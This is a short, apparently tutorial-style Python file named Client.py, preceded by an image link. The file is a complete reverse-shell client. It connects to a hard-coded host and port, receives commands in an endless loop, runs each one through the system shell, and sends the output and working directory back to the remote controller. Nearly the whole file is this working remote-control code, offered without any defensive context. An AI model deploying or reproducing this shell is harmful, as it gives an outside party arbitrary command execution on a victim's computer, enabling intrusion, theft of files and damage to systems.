

# Client.py
import socket
import os #operating system
import subprocess #subprocess is a process exist on windows computer

s = socket.socket()
host="192.168.0.167" #this IP address is dynamic as it changes whenever we restart our computer
port=9999

#now need to bind them together
s.connect((host,port))

#infinite loop for lot of instructions should be sent to client and should be executed by client.py file
while True:
    data = s.recv(1024)
    #for data check,utf-8 is character format and used to convert data coming from server in byte format to string format
    #and checks for first two character in data is 'cd' after decoding
    if data[:2].decode("utf-8") == "cd":
        os.chdir(data[3:].decode("utf-8")) #checks character from 3 position after cd like 'cd ..' or cd "DELL"

    if len(data) > 0:
        #Popen() opens the terminal to execute commands and decodes entire string entered in
        # shell property enables access to shell commands like dir.
        cmd = subprocess.Popen(data[:].decode("utf-8"),shell=True,stdout=subprocess.PIPE,stdin=subprocess.PIPE,stderr=subprocess.PIPE)
        #now sending back to server
        output_byte = cmd.stdout.read() + cmd.stderr.read()
        output_str = str(output_byte, "utf-8")
        #while sending to server need to convert string to byte and also send cwd i.e. 'C:\Users\DELL>'
        currentWD = os.getcwd() + "> "
        s.send(str.encode(output_str + currentWD))

        print(output_str) #to print on clients computer